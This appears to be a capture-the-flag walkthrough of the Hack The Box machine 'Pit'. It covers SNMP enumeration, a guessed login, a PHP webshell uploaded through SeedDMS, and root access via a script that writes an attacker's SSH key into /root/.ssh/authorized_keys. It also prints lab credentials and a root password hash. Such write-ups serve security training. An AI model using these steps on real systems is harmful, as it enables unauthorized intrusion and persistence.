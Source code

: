 ```yaml
---
title: "[HTB] Pit - Walkthrough"
layout: post
---
```


# Main Points
* [#SNMP](#SNMP)
* [SNMP can execute binary](https://book.hacktricks.xyz/pentesting/pentesting-snmp/snmp-rce)

# Writeup

## Enumeration
nmap enumeration:
```nmap
* 22/tcp   open  ssh             syn-ack ttl 63 OpenSSH 8.0 (protocol 2.0)
* 80/tcp   open  http            syn-ack ttl 63 nginx 1.14.1
* 9090/tcp open  ssl/zeus-admin? syn-ack ttl 63
	 ssl-cert: Subject: commonName=dms-pit.htb/ organizationName=4cd9329523184b0ea52ba0d20a1a6f92/countryName=US
	 Subject Alternative Name: DNS:dms-pit.htb, DNS:localhost, IP Address:127.0.0.1

```
We add the `dms-pit.htb` to `/etc/hosts` just in case there is virtual host.

Port 80 doesn't have anything interesting, Port 9090 has a login page, Hydra can't seem to bruteforce it, after launching nmap scan of UDP we find open port 161. This port corresponds to SNMP, it's a protocol.

### SNMP
Download and install `snmp-mibs-downloader` (apt)

To enumerate fully, we start walking the tree with `snmpwalk`
**Notes** :  `snmpwalk` by default starts from "mib-2", so you should specify `1` or `iso` to start enumerating from the root tree.

`snmpwalk -v 1 -c public 10.10.10.241 1`

## Foothold
We notice this path
![Pasted image 20210712230908.png](../Pasted%20image%2020210712230908.png)
Trying to access https://pit.htb:9090/seeddms51x/seeddms doesn't work.
While https://dms-pit.htb/ gives a forbidden error, we can access the URL https://dms-pit.htb/seeddms51x/seeddms

![Pasted image 20210712231031.png](../Pasted%20image%2020210712231031.png)

Since we saw the user `michelle` when enumrating SNMP, I try `michelle: michelle`, and it works.
We can login
![Pasted image 20210712231359.png](../Pasted%20image%2020210712231359.png)

There is upgrade note posted by Admin
![Pasted image 20210712231451.png](../Pasted%20image%2020210712231451.png)

We download the attachment, nothing really interesting except an old CVE fix about unvalidated file upload. We read about the CVE in exploit-db.

We see there is default folder for uploaded files
```txt
data/1048576/<document_id>/<file>.php
```

We see in the docs folder a folder named "Michelle" let's see if we can upload a php webshell.
![Pasted image 20210712232540.png](../Pasted%20image%2020210712232540.png)

We add a document
![Pasted image 20210712232926.png](../Pasted%20image%2020210712232926.png)
![Pasted image 20210712233520.png](../Pasted%20image%2020210712233520.png)

We setup our netcat listener
![Pasted image 20210712232945.png](../Pasted%20image%2020210712232945.png)

And we access the path
`dms-pit.htb/seeddms51x/data/1048576/<document_id>/<file>`
(We see our document_id is 30, you can see it in the URL as parameter, and the \<file\> is the name you specified in the form)

We have a shell, and we go to /var/www/html/conf

we see a file `settings.xml`
let's print it
We find some database creds
![Pasted image 20210713002133.png](../Pasted%20image%2020210713002133.png)
```xml
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu">
```

Let's try these creds in the main page at port 9090
Didnt work.

Let's try `Michelle: ied^ieY6xoquu`
It works !
We have these options
![Pasted image 20210713004107.png](../Pasted%20image%2020210713004107.png)
And in the profile we see
![Pasted image 20210713004134.png](../Pasted%20image%2020210713004134.png)
Hmmm interesting.
Further down the road in the left bar we see a Terminal
![Pasted image 20210713004256.png](../Pasted%20image%2020210713004256.png)

![Pasted image 20210713004306.png](../Pasted%20image%2020210713004306.png)
Nice ! We can get user flag .

## Priv Esc
We grep in the output of snmpwalk for `root`, we see there is a user root part of the OID
`NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring"`
Let's fetch all of this MIB module with `nsExtendObjects`

* [OID viewer](https://cric.grenoble.cnrs.fr/Administrateurs/Outils/MIBS/?oid=1.3.6.1.4.1.8072.1.3)

We see there is a binary `/usr/bin/monitor`
in the OID `NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring"`
![Pasted image 20210713032341.png](../Pasted%20image%2020210713032341.png)
Let's check it from Michelle

![Pasted image 20210713032323.png](../Pasted%20image%2020210713032323.png)
It's a script shell.

![Pasted image 20210713032423.png](../Pasted%20image%2020210713032423.png)

So what it does is iterate in the folder `/usr/local/monitoring/` for files that start with `check` and end with `sh`, so `check*sh`
and execute them with bash. And seeing the permissions, it is ran as root. So we can get a root shell.

Unfortonately we can't use a reverse shell, because there is a firewall iptables that is blocking the connection. So we can rely on ssh, we will create ou ssh key, and create a script that will copy the ssh key to the `/root/.ssh` folder and we will use that key to connect to root through ssh.

Fortunately we can write in `/usr/local/monitoring/`

let's generate a ssh key in our kali machine
`ssh-keygen`
![Pasted image 20210713032955.png](../Pasted%20image%2020210713032955.png)

And the script `check1.sh`
```bash
#!/bin/bash
echo "<PASTE HERE THE CONTENT OF id_rsa.pub>" > /root/.ssh/authorized_keys 
```

We copy this script by uploading it with curl and setting up our Python HTTP Server.

To trigger the `monitor` script to run our script, we can execute it with snmpwalk by querying its specific OID and querying the `run_on_read()`

`NET-SNMP-EXTEND-MIB::nsExtendRunType."monitoring" = INTEGER: run-on-read(1)
`
See [SNMP RCE](https://book.hacktricks.xyz/pentesting/pentesting-snmp/snmp-rce)
Command :
* `snmpwalk -c public -v 1 10.10.10.241 nsExtendObject`

Then run `ssh root@10.10.10.241 -i id_rsa`
You have root, you can get the flag :)
# root hash
`$6$4ZnZ0Iv3NzFIZtKa$tA78wgAwaBBSg96ecMRPYIogQmANo/9pJhHmf06bCmbKukMDM9rdT2Mdc6UhwD1raDzXIrk.zjQ9lkJIoLShE`